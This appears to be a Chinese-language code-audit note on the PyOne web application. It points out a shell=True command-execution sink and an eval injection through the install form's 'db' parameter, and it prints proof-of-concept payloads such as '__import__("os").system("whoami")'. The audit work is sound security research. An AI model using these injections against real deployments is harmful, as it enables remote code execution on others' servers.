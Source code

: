 ## 实战操作

### PyOne

#### 命令执行

`\app\admin\base_view.py`

`\app\admin\function.py`

```python
cmd_dict={
        'upgrade':"cd {} && git pull origin master && bash update.sh".format(config_dir),
        'running_log':'tail -30f {}/logs/PyOne.{}.log'.format(config_dir,'running'),
        'error_log':'tail -30f {}/logs/PyOne.{}.log'.format(config_dir,'error')
    }
    command=cmd_dict[request.args.get('command')]
    def generate():
       popen=subprocess.Popen(command,stdout=subprocess.PIPE,stderr=subprocess.PIPE,shell=True)
```

这里采用了`shell=True`，可以执行bash命令，从功能上看是可以执行命令的地方，而且执行的是`cmd_dict`中的命令，如果`config_dir`可控，那就说明可以命令执行。`config_dir`在配置文件中，安装的时候会触发。

```
python xxx.py || whoami
```

同样，这里有格式化字符串，如果可控，还可以利用格式化字符串来执行命令

```
"cd {} && git pull origin master && bash update.sh".format(''.__class__.__mro__[-1].__subclasses__())
```

#### eval

`app\admin\install.py`

安装文件，连接mongo数据库的时候，会执行一次eval。模块使用的pymongo，eval貌似必要性不大。

```python
try:
    mongo = MongoClient(host=host,port=int(port),connect=False,serverSelectionTimeoutMS=3)
    mon_db=eval('mongo.{}'.format(db))
```

db参数可控，通过`db=request.form.get('db')`获取。传参如下格式可以执行命令

```
__class__.__mro__[-1].__subclasses__()
m&__import__("os").system("whoami")
```

#### xml attack

`xmlrpc.client`模块默认不会遭受XXE，但是很容易受到实体扩展攻击。
